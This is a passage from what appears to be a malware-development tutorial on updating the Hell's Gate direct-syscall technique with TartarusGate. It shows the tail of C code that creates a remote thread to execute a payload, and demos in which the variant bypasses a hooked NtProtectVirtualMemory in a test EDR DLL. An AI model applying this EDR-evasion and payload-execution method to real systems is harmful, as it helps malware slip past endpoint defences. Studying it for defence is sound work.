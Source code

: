 ```


	// executing the payload
	SetSSn(g_Nt.NtCreateThreadEx.dwSSn);
	if ((STATUS = RunSyscall(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x00) {
		printf("[!] NtCreateThreadEx Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}


	// waiting for the payload
	SetSSn(g_Nt.NtWaitForSingleObject.dwSSn);
	if ((STATUS = RunSyscall(hThread, FALSE, NULL)) != 0x00) {
		printf("[!] NtWaitForSingleObject Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}


	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}


```
### **Demo 1 - Without TartarusGate**

`MalDevEdr.dll` is injected into the Hell's Gate implementation that does not use TartarusGate to find an SSN. This will fail when searching for the SSN, as expected.

* Injecting `MalDevEdr.dll` into the Hell's Gate implementation.[![](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-819042962-afbc121a-d298-419a-b1e5-89eef05d8fa9.png)](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-819042962-afbc121a-d298-419a-b1e5-89eef05d8fa9.png)• `NtProtectVirtualMemory` is hooked.

[![](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-919042983-21be24a2-1648-4a06-afe5-d08ededb7b0e.png)](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-919042983-21be24a2-1648-4a06-afe5-d08ededb7b0e.png)• Hell's Gate fails.

[![](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-10.png)](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-10.png)### **Demo 2 - With TartarusGate**

`MalDevEdr.dll` is injected into the Hell's Gate implementation that uses TartarusGate to find an SSN. This implementation is able to successfully retrieve the SSN.


	+ Injecting `MalDevEdr.dll` into the Hell's Gate implementation that utilizes TartarusGate. Furthermore, breakpoints are inserted in several points in the code for further analysis.


[![](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-11.png)](88%20Updating%20Hell's%20Gate%20fe07144871284371a5c31d710c3c2a4f/hellsgate-update-11.png)• Hitting a breaking point when retrieving the SSN of `NtProtectVirtualMemory`. Since it's hooked, the syscall's opcodes aren't the same as the usual syscall format.

